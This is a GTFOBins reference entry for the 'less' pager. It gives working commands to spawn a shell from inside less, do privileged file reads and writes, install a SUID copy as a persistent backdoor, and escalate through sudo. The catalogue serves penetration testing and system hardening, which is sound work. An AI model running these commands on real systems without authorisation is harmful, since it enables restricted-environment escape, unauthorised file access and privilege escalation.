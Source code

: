 # GTFOBin: less

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
less /etc/profile
!/bin/sh
```

```
VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
v
```

```
less /etc/profile
v:shell
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
echo DATA | less
sfile_to_write
q
```

This invokes the default editor to edit the file. The file must exist.

```
less file_to_write
v
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
less file_to_read
```

This is useful when `less` is used as a pager by another binary to read a different file.

```
less /etc/profile
:e file_to_read
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which less) .

./less file_to_read
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo less /etc/profile
!/bin/sh
```